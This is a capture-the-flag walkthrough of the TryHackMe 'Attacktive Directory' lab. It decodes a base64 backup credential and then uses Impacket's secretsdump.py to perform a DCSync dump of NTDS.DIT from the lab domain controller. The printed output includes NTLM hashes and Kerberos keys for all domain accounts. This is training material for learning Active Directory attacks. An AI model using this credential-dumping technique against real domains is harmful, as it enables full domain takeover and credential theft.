 ```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

6. Decoding the contents of the file, what is the full contents?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```

`backup@spookysec.local:backup2517860`

## Task 7 Elevating Privileges

**Introduction:**

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

![](https://blog.spookysec.net/img/dcsync.png)

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

1. What method allowed us to dump NTDS.DIT?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/secretsdump.py -dc-ip 10.10.225.245 spookysec.local/backup:backup2517860@10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:789c25228cf453618013bb1f19335794:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
```